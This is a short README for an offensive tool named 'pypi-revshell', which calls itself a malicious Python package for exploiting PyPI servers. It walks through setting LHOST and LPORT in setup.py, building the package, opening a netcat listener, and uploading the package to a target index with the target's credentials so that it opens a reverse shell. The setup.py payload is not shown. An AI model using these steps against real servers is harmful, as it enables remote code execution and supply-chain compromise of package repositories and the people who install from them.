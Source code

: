 # pypi-revshell
Malicious Python package for PyPi server exploitation

## Create `~/.pypirc` with the target PyPi creds
https://pypi.org/project/pypiserver/#upload-with-setuptools

## Using setuptools:
```bash
git clone https://github.com/iamkashz/pypi-revshell.git
cd pypi-revshell
# modify LHOST, LPORT in setup.py

# to confirm package creation
python setup.py sdist
# should create tar archive under dist/pypi-revshell-0.1.tar.gz

# start listener using 
nc -lvnp LPORT

# uplood package to target
python setup.py sdist upload -r [remote-index-server]
```

## References
https://pypi.org/project/pypiserver/
https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/

